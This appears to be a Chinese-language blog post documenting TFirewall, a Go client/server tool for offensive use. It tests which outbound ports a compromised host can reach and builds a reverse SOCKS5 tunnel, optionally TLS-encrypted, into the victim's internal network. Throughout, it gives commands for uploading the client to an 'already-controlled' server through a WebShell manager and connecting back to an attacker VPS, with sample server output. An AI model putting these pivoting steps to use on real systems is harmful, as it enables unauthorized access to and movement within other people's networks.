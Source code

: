```yaml
---
layout: post
title: TFirewall
category: 工具
tags: firewall,Golang
keywords: firewall,Golang
---
```



TFirewall是测试已控主机哪些端口可以出网及建立内网socks5代理的工具.工具主体使用golang开发,工具包含客户端及服务端,适用于windows,linux,x64,x86.
# 使用方法
## 出网检测
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 直接运行```.\server_linux_x64 check```启动监听,工具会自动监听常用的TOP10端口,或通过 ```.\server_linux_x64 check 20-23,53,80```自定义监听端口
* 服务端打印如下信息表示监听成功
```
root@taZ:~# ./server_linux_x64 check 20-23,53,80
Check Server listening:  [20 21 22 23 53 80]
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x86.exe check 10.10.10.10```测试TOP10端口哪些可以出网(服务端对应命令```.\server_linux_x64 check```)
* 运行```client_win_x86.exe  check 10.10.10.10 20-23,53,80```探测指定端口(服务端对应命令```.\server_linux_x64 check 20-23,53,80```)
* 观察服务端输出即可查看客户端可以连接服务端哪些端口,使用什么协议

```
root@iZj6cbux9hc5eo9oyud2taZ:~# ./server_linux_x64 check 23,80-82
Check Server listening:  [23 80 81]
RecvTCP On 172.17.20.209:23 From 175.132.138.137:16918 
RecvTCP On 172.17.20.209:80 From 175.132.138.137:50641 
RecvTCP On 172.17.20.209:81 From 175.132.138.137:38747 
RecvUDP On [::]:23 From 175.167.138.137:28822
RecvUDP On [::]:80 From 175.167.138.137:26831
RecvUDP On [::]:81 From 175.167.138.137:26832
```

## 内网socks5代理
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 通过 ```.\server_linux_x64 socks5 80 1080```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x64.exe socks5 10.10.10.10 80```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

## 内网socks5代理(TLS加密)
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 将server.pem(tls公钥),server.key(tls私钥)上传到```server_linux_x64```相同目录
* 通过 ```.\server_linux_x64 socks5 80 1080 tls```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x64.exe socks5 10.10.10.10 80 tls```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

# 已测试
## server
* ubuntu 18
## client
* Windows 10 
* ubuntu 16
* kali




